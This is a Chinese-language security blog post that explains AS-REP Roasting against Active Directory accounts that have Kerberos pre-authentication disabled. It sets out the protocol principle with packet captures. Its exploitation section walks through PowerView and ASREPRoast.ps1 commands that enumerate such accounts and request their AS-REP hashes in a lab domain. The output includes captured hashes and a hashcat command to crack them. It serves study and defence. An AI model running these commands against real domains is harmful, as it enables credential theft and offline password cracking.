 ```yaml
---
title: AS-REP Roasting
date: 2019-12-31 23:59:54 +0800
categories: [域安全, TA0006凭据访问]
tags: [AS-REP Roasting, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## 0x00 简介

如果账户设置了`Do not require Kerberos preauthentication`，则在AS-REQ阶段就不需要用Client Master Key加密timestamp，用于KDC验证自身。因此，攻击者可以伪装成任意用户发出AS-REQ，而AES-REP中的Session Key是由Client Master Key加密的；一旦攻击者拿到AES-REP后便可暴力破解，如果能顺利解密说明破解成功。

![image-20201229101454378](/assets/img/image-20201229101454378.png)



**参考：**

[Roasting AS-REPs](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

[域渗透——AS-REPRoasting](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-AS-REPRoasting/)

[A Generalized Framework for Kerberos Pre-Authentication](https://tools.ietf.org/html/rfc6113#section-2.2)



## 0x01 AS-REP Roasting原理

Kerberos preauthentication的作用：

> https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication
>
> Kerberos Pre-Authentication is a concept within [Kerberos](https://ldapwiki.com/wiki/Kerberos).
>
> Kerberos Pre-Authentication is defined in [RFC 6113](https://ldapwiki.com/wiki/RFC 6113) and an [IANA Registry](https://ldapwiki.com/wiki/IANA Registry) for [Pre-authentication and Typed Data](https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#pre-authentication)
>
> Kerberos Pre-Authentication is a security feature which offers protection against [password-guessing](https://ldapwiki.com/wiki/Brute-Force) [attacks](https://ldapwiki.com/wiki/Attack). The AS request identifies the client to the [KDC](https://ldapwiki.com/wiki/KDC) in [Plaintext](https://ldapwiki.com/wiki/Plaintext). If Kerberos Pre-Authentication is enabled, a [Timestamp](https://ldapwiki.com/wiki/Timestamp) will be [encrypted](https://ldapwiki.com/wiki/Encrypted) using the user's [password](https://ldapwiki.com/wiki/Password) [hash](https://ldapwiki.com/wiki/Hash) as an [encryption](https://ldapwiki.com/wiki/Encryption) [key](https://ldapwiki.com/wiki/Key). If the [KDC](https://ldapwiki.com/wiki/KDC) reads a valid time when using the user's password hash, which is available in the [Microsoft Active Directory](https://ldapwiki.com/wiki/Microsoft Active Directory), to decrypt the [Timestamp](https://ldapwiki.com/wiki/Timestamp), the [KDC](https://ldapwiki.com/wiki/KDC) knows that request isn't a replay of a previous request.
>
> Without Kerberos Pre-Authentication a [malicious](https://ldapwiki.com/wiki/Malicious) [attacker](https://ldapwiki.com/wiki/Attacker) can directly send a dummy request for [authentication](https://ldapwiki.com/wiki/Authentication). The [KDC](https://ldapwiki.com/wiki/KDC) will return an [encrypted](https://ldapwiki.com/wiki/Encrypted) [TGT](https://ldapwiki.com/wiki/TGT) and the [attacker](https://ldapwiki.com/wiki/Attacker) can brute force it offline. Upon checking the [KDC](https://ldapwiki.com/wiki/KDC) logs, nothing will be seen except a single request for a [TGT](https://ldapwiki.com/wiki/TGT). When [Kerberos](https://ldapwiki.com/wiki/Kerberos) [timestamp](https://ldapwiki.com/wiki/Timestamp) Kerberos Pre-Authentication is enforced, the [attacker](https://ldapwiki.com/wiki/Attacker) cannot directly ask the [KDCs](https://ldapwiki.com/wiki/KDC) for the encrypted material to [Brute-Force](https://ldapwiki.com/wiki/Brute-Force) offline.



注意抓包前先用**KERBEROS::Purge** 清理所有Kerberos ticket，首先看一个带Pre-Authentication的流量，在第二个AS-REQ里，Client会发送密码Hash加密过的timestamp, KDC如果解密成功，即可验证Client。

 [ASExchange_WithPreau.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/ASExchange_WithPreau.pcapng) 

![image-20201229095230284](/assets/img/image-20201229095230284.png)



再看一个不带Pre-Authentication的流量，可以发现AS-REQ中没有entrypted timestamp字段，即不需要让KDC验证身份。

 [ASExchange_WithoutPreau.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/ASExchange_WithoutPreau.pcapng) 

![image-20201229095616210](/assets/img/image-20201229095616210.png)



对于关闭了Pre-Authentication的账户，攻击者可以在AS-REQ里仿冒成这些账户获取AS-REP，但还存在两个要解决的问题。

1. AS-REQ、AS-REP中都用指定的etype来加密数据，etype默认是AES256-CTS-HMAC-SHA1-96算法，该算法不如ARCFOUR-HMAC-MD5/RC4快。为了后面暴力破解更快，需要在AS-REQ时就直接指定etype。
2. 传输数据采用了ASN.1格式，.Net没有内置ASN.1的格式解析，最终作者使用的是[open source C# version](https://github.com/bcgit/bc-csharp) 



最终AS-REP Roasting流量如下：

 [AS-REPRoasting.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/AS-REPRoasting.pcapng) 

![image-20201229100542623](/assets/img/image-20201229100542623.png)





## 0x02 AS-REP Roasting利用

### [1. ASREPRoast.ps1](https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1)



#### 设置账户不需要Pre-Auth(需要Domain Admins权限)

```
// Powerview, 事后也是执行同样的命令Enable Pre-Auth
PS C:\Users\Administrator\Desktop> Set-DomainObject -Identity win10_2 -XOR @{userAccountControl=4194304} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=win10_2)(name=win10_2)(displayname=win10_2))))
VERBOSE: [Set-DomainObject] XORing 'userAccountControl' with '4194304' for object 'win10_2'
```





#### 查找不需要`Pre-Auth`的账户

```
// LDAP Filter
(userAccountControl:1.2.840.113556.1.4.803:=4194304)

// Powerview, Get-DomainUser -PreauthNotRequired
PS C:\Users\win10\Desktop> Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainUser] Searching for user accounts that do not require kerberos preauthenticate
VERBOSE: [Get-DomainUser] filter string:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))

distinguishedname
-----------------
CN=win10_2,CN=Users,DC=ring2,DC=com
```



#### 发送自己构造的AS-REQ

```
// ASREPRoast.ps1
PS C:\Users\win10\Desktop> Get-ASREPHash -UserName win10_2 -Domain ring2.com -Verbose
VERBOSE: [Get-ASREPHash] DC server IP '192.168.240.142' resolved from passed -Domain parameter
VERBOSE: [Get-ASREPHash] Bytes sent to '192.168.240.142': 157
VERBOSE: [Get-ASREPHash] Bytes received from '192.168.240.142': 1356
$krb5asrep$win10_2@ring2.com:5f799d1ea6514c063501cf007e57413b$f9fd3ed74412ebd698ba4a6a158109da42eed6ae7bf2318160f7de6aaa9e9f60cbf45a98c781671a68483e0ba3fb44395b7248fbb53cb89871b357f81544b8b5a4097057507c5a8a48ee3ec9716fc6b6292bc683dc953b6b19e17d6d8f386998c0c78f543d665363ed12b36ee38b0107d21f49f49460dce935bed6005284cb2dc187008fb0f0233163ad4ae61b2a7caf977cdf4c9ebaee05591bfe90c5f4f56b4ef12d17200396469318810cf5c0c1976d316ada73e54a3eff8d0da01ac9cc4dac64d5c082f9cc521a090163a2c271072d2b78b998f9cc2f47f84bfd4d2d06f20f4a6bd61eb2
```



`Invoke-ASREPRoast`将发现和发送组合到了一起，可以直接调用。

```
PS C:\Users\win10\Desktop> Invoke-ASREPRoast -Verbose |Format-List
VERBOSE: [Invoke-ASREPRoast] DC server IP '192.168.240.142' resolved from passed -Domain parameter
VERBOSE: [Get-DomainSearcher] search string: LDAP://ringdc-pc.ring2.com/DC=ring2,DC=com
VERBOSE: [Invoke-ASREPRoast] LDAP filter:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
VERBOSE: [Get-ASREPHash] DC server IP '192.168.240.142' resolved from passed -Server parameter
VERBOSE: [Get-ASREPHash] Bytes sent to '192.168.240.142': 157
VERBOSE: [Get-ASREPHash] Bytes received from '192.168.240.142': 1356


SamaccountName    : win10_2
DistinguishedName : CN=win10_2,CN=Users,DC=ring2,DC=com
Hash              : $krb5asrep$win10_2@ring2.com:f11aab49f586f1fcab53dcc60dbe8e0e$6b1622e1a82818fa83fc69aa96fee761d7efe
                    07474f76748336b1cd7ddb6fb3781763037b3bd61f2fb24f8410fceb256f093fdd4e46fa95b1a09a2bcf139329ecd5ce1e8
                    aeb8b119e7a80f1a6bbb875593a26a01dcdb83939b8a241d7380918a63bbf58fe0c4ab94d5c8c7dc6a0c173e65b3eadc672
                    c7094728c3ff6cafae1f5e10286d0a9afd9ae42fd38c87a4c1e0f21ca91d1f786ea98af39b07045c690785e127594d52615
                    93b5780563ae614bed15d9cc70eb127ec682ab072414a59e112fd415baad8e0bf0495673543924ff2ae99b903f37f2f49b5
                    0f02cff77592222a12bae5fdc38
```



#### 暴力破解

需要在$krb5asrep加上etype类型$23

```
hashcat -m 18200 '$krb5asrep$23$win10_2@ring2.com:9b93f475d1348bc80d8826e558f94e39$d335c24cb5343d505cd0fd59cadf290c3a2af20dbdad28f8671dd6d82ba760e2de0cc29b0b6bc222bd1833b5d6d8bb6c2b1d3b5203ecadc6d305a5597949d4d60ac9a286c214af6be85596a7054b3a50664d489ef3fe72c397bb67fcc90225acb10637357c1408752b5e10d492a752bf0dbd18ed09f0b19962186a49ab98d30935983cbc20133597bdca32c8a1a71e60b098cc47a511f5f1d6c309205b0f76cfce6a3167b1481b2ec868bf48bb99ec23b42b942867cd0952833eb71f733d305ab9f50cb88d76eafd95619a75977c7bcb52bb31e0331239c2faee1dfb0da84d902d882d9a642b' password.txt --force
```

![image-20201229102020908](/assets/img/image-20201229102020908.png)

